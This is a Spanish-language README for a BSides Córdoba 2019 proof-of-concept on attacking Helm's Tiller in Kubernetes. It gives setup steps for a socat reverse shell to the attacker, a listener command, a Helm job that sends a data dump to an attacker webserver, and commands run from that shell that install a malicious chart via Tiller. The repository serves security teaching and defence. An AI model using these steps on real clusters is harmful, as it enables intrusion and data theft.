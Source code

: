# Bsides Córdoba2019

Este repositorio contiene los recursos necesarios para desplegar pruebas de concepto utilizando Tiller como vector/target de ataque.

* [Bsides talk](https://www.youtube.com/watch?v=Ax7wMuxwMuY&t=20400)
* [Slides](https://bsidescordoba.org/slides/Preventing_attacks_to_Helm_on_K8s.pdf)

## Getting Started

El *startpoint* es una aplicación previamente vulnerada. Para simular el caso, en el folder `/app` se encuentran los archivos requeridos para desplegar una imagen que establecerá un *reverse-shell* contra la IP del atacante.

### Prerequisites

* Editar el archivo `/app/socat-shell.sh` indicando *address:port[1]* del atacante en el campo `tcp`.
* Utilizar como *build context* el folder `/app`. Pullear la imagen obtenida a DockerHub.
* Editar el archivo `/app/pod.yaml` indicando *repository/image:tag* en el campo `image`.
* Iniciar un *listener* en el host atacante, utilizando un *port[1]* válido:

```sh
socat file:`tty`,raw,echo=0 tcp-listen:port
```

* Desplegar un *pod* utilizando el archivo `/app/pod.yaml`.
* Iniciar un webserver local para recibir el *dump* de datos, ej: [mayth/simple-upload-server](https://hub.docker.com/r/mayth/simple-upload-server/).
* Editar el archivo `/templates/job.yaml` indicando *URL* del webserver del atacante en el campo `command`.
* Crear y publicar un *chart* de Helm utilizando los manifiestos incluídos en el folder `/templates`.

[1]: samevalue

### Walkthrough

Desde el *reverse-shell*, ejecutar los siguientes comandos:

```sh
export HELM_HOME=$(pwd)/helmhome
export HELM_HOST=tiller-deploy.kube-system.svc.cluster.local:44134 #Default tiller svc
export VER=v2.10.0 #Indica versión de Helm
curl -L "https://storage.googleapis.com/kubernetes-helm/helm-${VER}-linux-amd64.tar.gz" | tar xz --strip-components=1 -C . linux-amd64/helm #Descarga binario de Helm
./helm init --client-only #Inicia client-side de Helm
./helm repo add `chart-name` `chart-url` #Reemplazar por los valores obtenidos al momento de publicar el chart
./helm repo update
./helm install -n tiller-test `repository/chart-name` #Reemplazar por los valores obtenidos al momento de publicar el chart
./helm delete --purge tiller-test #Elimina workloads
```

Happy Helming!
